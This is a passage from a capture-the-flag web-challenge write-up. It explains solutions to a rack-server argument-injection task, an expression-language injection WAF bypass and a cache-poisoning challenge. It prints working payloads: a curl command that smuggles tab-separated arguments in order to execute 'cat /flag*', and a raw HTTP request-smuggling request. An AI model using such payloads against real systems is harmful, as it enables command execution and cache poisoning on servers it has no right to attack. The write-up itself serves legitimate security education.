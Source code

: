 In Discord, @zeosutt provided an interesting alternative solution that utilizes the technique of uploaded files being stored in `/tmp/` on the rack server. You can directly import the uploaded file:

```
curl http://35.231.135.130:32190/ -F $'service=127.0.0.1:1337\t--script\t/tmp/RackMultipart?????????????????' -F '=os.execute("cat /flag*");filename=evil'
```

### Frog-WAF (29 solves)

There is an EL injection vulnerability in `buildConstraintViolationWithTemplate`, and the remaining challenge is to bypass the WAF.

Similar vulnerabilities have been found in actual products:

1. [Expression Language Injection in Netflix Conductor](https://github.com/advisories/GHSA-wfj5-2mqr-7jvv)
2. [CVE-2020-9296-Netflix-Conductor-RCE-Analysis](https://xz.aliyun.com/t/7889)

For the bypassing part, you can refer to the following resources:

1. https://github.com/project-sekai-ctf/sekaictf-2023/blob/main/web/frog-waf/solution/solve.py
2. https://gist.github.com/maikypedia/db98bc83cc76ec7c82e1a4347c6127ba
3. https://gist.github.com/zeyu2001/1b9e9634f6ec6cd3dcb588180c79bf00

### Chunky (16 solves)

This challenge involves a cache server and a backend server. All requests go through the cache server before reaching the backend, and a copy of the response is stored in the cache server as a cache. The goal is to poison the cache.

The solution is to construct a request that is interpreted differently by the cache server and the backend server, similar to request smuggling. Here is the solution provided by [zeyu](https://gist.github.com/zeyu2001/1b9e9634f6ec6cd3dcb588180c79bf00):

```
GET /aaaaa HTTP/1.1
Host: localhost
transfer-encoding: chunked
Content-Length: 102

0

GET /post/56e02543-8616-4536-9062-f18a4a466a03/e85a6915-0fe6-4ca6-a5e7-862d00bca6e5 HTTP/1.1
X: GET /56e02543-8616-4536-9062-f18a4a466a03/.well-known/jwks.json HTTP/1.1
Host: localhost
```

The cache server interprets the second request as `GET /56e02543-8616-4536-9062-f18a4a466a03/.well-known/jwks.json` based on the `Content-Length` header, while the backend server interprets it as `GET /post/56e02543-8616-4536-9062-f18a4a466a03/e85a6915-0fe6-4ca6-a5e7-862d00bca6e5` based on the `transfer-encoding` header. This way, we can use the response from another path to poison the jwks.json file and achieve cache poisoning.

### Golf Jail (16 solves)
